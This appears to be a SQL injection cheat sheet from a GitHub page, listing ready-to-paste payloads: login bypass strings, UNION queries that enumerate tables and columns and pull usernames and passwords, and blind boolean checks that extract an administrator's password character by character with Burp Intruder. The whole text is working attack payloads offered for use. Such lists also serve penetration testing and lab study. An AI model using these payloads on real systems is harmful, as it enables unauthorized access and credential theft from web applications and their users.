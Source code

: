 
[Amit Sakpal](https://github.com/offsec-amit)

# --- Logic Bypass / Conditional Data Retrieval ---
' OR 1=1 -- -
' OR 1=1 #

# --- Login Bypass (Administrator) ---
admin'-- -
admin' OR 1=1 -- -

# --- IN-BAND UNION ATTACKS ---

# Column Enumeration (adjust NULLs based on ORDER BY result)
UNION SELECT NULL,NULL --

# Injecting Text (adjust NULLs and position for reflection)
UNION SELECT 'A',NULL --

# Database Version Retrieval (MySQL/PostgreSQL)
UNION SELECT VERSION(),NULL --

# Database Version Retrieval (MySQL specific, using @@VERSION)
UNION SELECT @@VERSION,NULL #

# Database Version Retrieval (Oracle)
UNION SELECT BANNER,NULL FROM V$VERSION --

# Listing Tables (MySQL/PostgreSQL)
UNION SELECT table_name,NULL FROM information_schema.tables --

# Listing Columns for a specific table (e.g., 'users' table, MySQL/PostgreSQL)
UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users' --

# Retrieving specific data (e.g., username and password from 'users' table)
UNION SELECT username,password FROM users --

# Retrieving specific data for a condition (e.g., password for 'administrator')
UNION SELECT password,NULL FROM users WHERE username = 'administrator' --

# Listing Database Contents (PostgreSQL specific, if table_u and table_p are columns in table_container)
UNION SELECT table_u,table_p FROM table_container --

# --- INFERENTIAL / BLIND SQL INJECTION ---

# Boolean-based True Condition Check
' AND 1=1 --

# Check for table existence (e.g., 'users')
' AND (SELECT 'x' FROM users LIMIT 1) = 'x' --

# Check for specific user existence (e.g., 'admin')
' AND (SELECT username FROM users WHERE username = 'admin') = 'admin' --

# Determine password length (use with Intruder, payload for [LENGTH])
' AND (SELECT LENGTH(password) FROM users WHERE username = 'admin') > [LENGTH] --

# Extract character at specific position (use with Intruder, payload for [POSITION] and [CHAR])
' AND (SELECT SUBSTRING(password, [POSITION], 1) FROM users WHERE username = 'admin') = '[CHAR]' --
